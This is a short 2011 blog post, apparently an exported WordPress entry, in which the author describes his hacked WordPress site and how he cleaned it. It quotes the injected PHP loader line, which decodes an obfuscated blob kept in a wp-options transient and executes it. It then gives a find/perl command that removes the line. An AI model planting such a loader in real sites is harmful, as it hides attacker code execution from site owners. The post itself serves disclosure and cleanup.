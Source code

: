 ```yaml
---
layout: post
status: publish
published: true
title: We're back
author: dan
author_login: admin
author_email: dan@danwalmsley.com
author_url: http://danwalmsley.com
wordpress_id: 467
wordpress_url: http://www.danwalmsley.com/?p=467
date: 2011-07-11 14:19:46.000000000 -07:00
categories:
- General
- featured
tags: []
comments: []
---
```

So I totally got hacked. Reminder: be vigilant about upgrading wordpress and its plugins, or bad things happen.

The hack looks like this, and appears all over the place, at the top of some files and the bottom of others. It decodes a huge blob of encoded text that was stuffed into one of the wp-options values.
<blockquote>get_option(\"_transient_feed_98e8dbd04edf43b096e815a29343b006\"); $z=base64_decode(str_rot13($z)); if(strpos($z,\"0FE00707\")!==false){ $_z=create_function(\"\",$z); @$_z(); }<&#47;blockquote>
My first thought: "Oh crap, removing that text from hundreds of files? No thanks.". Command line to the rescue! Thanks to Perl for still being awesome after all these years.
<blockquote>find . -name "*.php" -exec perl -e 's&#47;^.*_transient_feed_98e8dbd04edf43b096e815a29343b006.*$&#47;&#47;g' -p -i {} \;<&#47;blockquote>
If you've been struck by the same thing, just replace the _transient_feed with your own (the numbers probably change). These script-kiddy hackers are a perpetual annoyance. Hey kids - go build something awesome and useful instead of messing our web sites.
